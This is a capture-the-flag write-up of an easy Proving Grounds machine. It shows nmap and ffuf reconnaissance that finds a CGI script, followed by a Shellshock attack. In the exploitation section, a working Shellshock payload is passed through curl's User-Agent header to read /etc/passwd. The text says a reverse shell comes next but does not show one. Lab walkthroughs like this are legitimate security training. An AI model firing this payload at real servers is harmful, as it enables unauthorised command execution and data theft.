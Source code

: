 ## Sumo Proving Grounds
## Level: Easy
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 192.168.212.87 -T4  -v -p-```

```
# Nmap 7.93 scan initiated Sat Jun 24 13:51:06 2023 as: nmap -A -T4 -v -p- -oN sumo 192.168.212.87
Increasing send delay for 192.168.212.87 from 0 to 5 due to 752 out of 1879 dropped probes since last increase.
Increasing send delay for 192.168.212.87 from 5 to 10 due to 17 out of 42 dropped probes since last increase.
Warning: 192.168.212.87 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.212.87
Host is up (0.21s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06cb9ea3aff01048c417934a2c45d948 (DSA)
|   2048 b7c5427bbaae9b9b7190e747b4a4de5a (RSA)
|_  256 fa81cd002d52660b70fcb840fadb1830 (ECDSA)
80/tcp    open     http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
10604/tcp filtered unknown
20429/tcp filtered unknown
20820/tcp filtered unknown
21802/tcp filtered unknown
27692/tcp filtered unknown
41664/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=6/24%OT=22%CT=1%CU=40015%PV=Y%DS=4%DC=T%G=Y%TM=6496EC0
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10C%TI=Z%II=I%TS=8)OPS(O1=M
OS:54EST11NW5%O2=M54EST11NW5%O3=M54ENNT11NW5%O4=M54EST11NW5%O5=M54EST11NW5%
OS:O6=M54EST11)WIN(W1=3890%W2=3890%W3=3890%W4=3890%W5=3890%W6=3890)ECN(R=Y%
OS:DF=Y%T=40%W=3908%O=M54ENNSNW5%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
OS:T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=B3
OS:60%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.356 days (since Sat Jun 24 05:41:12 2023)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   293.00 ms 192.168.45.1
2   292.98 ms 192.168.45.254
3   293.02 ms 192.168.251.1
4   293.06 ms 192.168.212.87

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 24 14:13:36 2023 -- 1 IP address (1 host up) scanned in 1350.43 seconds
```

From our scan we can see we have 2 open ports. Port 22 which runs ssh and port 80 which runs http. Our enumeration today will be focused on port 80.




# Enumeration

Navigating to the webpage you should see this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2b321877-d939-4b76-a54b-580bff6381a5)

checking the web source page

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0d860ae0-5b3f-448a-abb3-a6ad3cedebde)

oops nothing

Well, all hope isn't lost yet, lets go ahead and fire up our directory enumeration tools. I'll be using ffuf

command:```ffuf -u "http://192.168.212.87/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/sumo]
└─$ ffuf -u "http://192.168.212.87/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.212.87/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

cgi-bin/                [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 214ms]
index                   [Status: 200, Size: 177, Words: 22, Lines: 5, Duration: 218ms]
index.html              [Status: 200, Size: 177, Words: 22, Lines: 5, Duration: 217ms]
:: Progress: [32298/32298] :: Job [1/1] :: 180 req/sec :: Duration: [0:03:29] :: Errors: 0 ::
```
cool, we found a directory ```cgi-bin/```. 

Navigating to that directory

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cdcb95fb-54cd-45a2-98f2-3d5ee220a66d)

opps, "403 error"😧. 

Lets try to fuzz this directory to see if we can get anything

command:```ffuf -u "http://192.168.212.87/cgi-bin/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/sumo]
└─$ ffuf -u "http://192.168.212.87/cgi-bin/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.212.87/cgi-bin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

test                    [Status: 200, Size: 14, Words: 3, Lines: 2, Duration: 223ms]
:: Progress: [32298/32298] :: Job [1/1] :: 157 req/sec :: Duration: [0:03:16] :: Errors: 0 ::
```
We found a sub-directory hehe😎.

Navigating to the sub-directory

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7cb25db6-01b1-4bb1-ba55-a443a2a724b7)

Okay, "CGI Default". 

What's CGI??

<font color="green">CGI stands for Common Gateway Interface. It is a standard protocol that enables communication between web servers and external programs or scripts. CGI allows web servers to execute these programs and generate dynamic content in response to user requests, facilitating the interactive nature of websites and web applications.</font>

Lets try to look for vulnerabilities for this standard protocol

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/784c7a05-cd16-4223-b5c4-21c6fe3b999e)

Okay, we find out the name of the vulnerability is shellshock, you can read more about it [here](https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/)

Reading [this](https://www.exploit-db.com/docs/english/48112-the-shellshock-attack-%5Bpaper%5D.pdf?utm_source=dlvr.it&utm_medium=twitter) you'll see that editing the  user agent will get us a reverse shell.

Cool stuff right??😎





# Exploitation

I'll be using the ```curl``` command to do this

payload:```() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'"```

With this, we'll try to view the ```/etc/passwd``` file

command:```curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \http://192.168.170.87/cgi-bin/test```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b440fc1c-951c-4ead-8f7a-396ff7e87144)

cool stuff hehe. Lets go ahead and get a reverse shell

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4b6e1f4d-ee32-4218-89c9-69b3399d08b5)

As you can see from the above screenshot the command ```id``` and ```whoami``` works. So, we can leverage this to  get our reverse shell














  


